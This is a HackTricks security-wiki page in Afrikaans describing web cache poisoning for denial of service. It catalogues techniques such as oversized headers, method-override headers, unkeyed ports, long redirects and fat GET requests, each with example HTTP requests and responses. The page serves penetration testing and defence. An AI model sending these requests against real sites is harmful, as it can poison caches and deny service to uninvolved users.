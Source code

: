 # Cache Poisoning to DoS

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Op hierdie bladsy kan jy verskillende variasies vind om te probeer om die **webbediener te laat reageer met foute** op versoeke wat **geldige is vir die cache bedieners**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Stuur 'n versoek met 'n kopgrootte groter as die een wat deur die webbediener ondersteun word, maar kleiner as die een wat deur die cachebediener ondersteun word. Die webbediener sal met 'n 400 respons antwoordgee wat dalk gekanselleer kan word:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Karakter (HMC) & Onverwagte waardes**

Stuur 'n kop wat sommige **skadelike meta karakters** soos `\n` en `\r` bevat. Om die aanval te laat werk, moet jy eers die cache omseil.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
'n Sleg geconfigureerde kop kan net `\:` as 'n kop wees.

Dit kan ook werk as onverwagte waardes gestuur word, soos 'n onverwagte Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Ongekeyde kop**

Sommige webwerwe sal 'n foutstatuskode teruggee as hulle **sekere spesifieke koppe in die versoek sien** soos met die _X-Amz-Website-Location-Redirect: someThing_ kop:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Metode Oorskrywing Aanval (HMO)**

As die bediener die verandering van die HTTP-metode met koptekste soos `X-HTTP-Method-Override`, `X-HTTP-Method` of `X-Method-Override` ondersteun. Dit is moontlik om 'n geldige bladsy aan te vra deur die metode te verander sodat die bediener dit nie ondersteun nie, sodat 'n slegte antwoord in die cache gestoor word:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Ongekeyde Poort**

As die poort in die Host-kop weerspieël word in die antwoord en nie in die cache-sleutel ingesluit is nie, is dit moontlik om dit na 'n onbenutte poort te herlei:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Soos in die volgende voorbeeld, x word nie in die cache gestoor nie, so 'n aanvaller kan die herlei-respons gedrag misbruik om die herlei 'n URL te laat stuur wat so groot is dat dit 'n fout teruggee. Dan sal mense wat probeer om toegang te verkry tot die URL sonder die ongecacheerde x sleutel die foutrespons ontvang:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Gasheer-kop geval normalisering**

Die gasheer-kop behoort nie gevalsensitief te wees nie, maar sommige webwerwe verwag dit om kleinletters te wees en gee 'n fout as dit nie is nie:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Pad normalisering**

Sommige bladsye sal foutkode teruggee deur data URLencode in die pad te stuur, egter, die cache bediener sal die pad URLdecode en die antwoord vir die URLdecoded pad stoor:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Sommige cache bedieners, soos Cloudflare, of web bedieners, stop GET versoeke met 'n liggaam, so dit kan misbruik word om 'n ongeldige antwoord te kas:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Verwysings

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
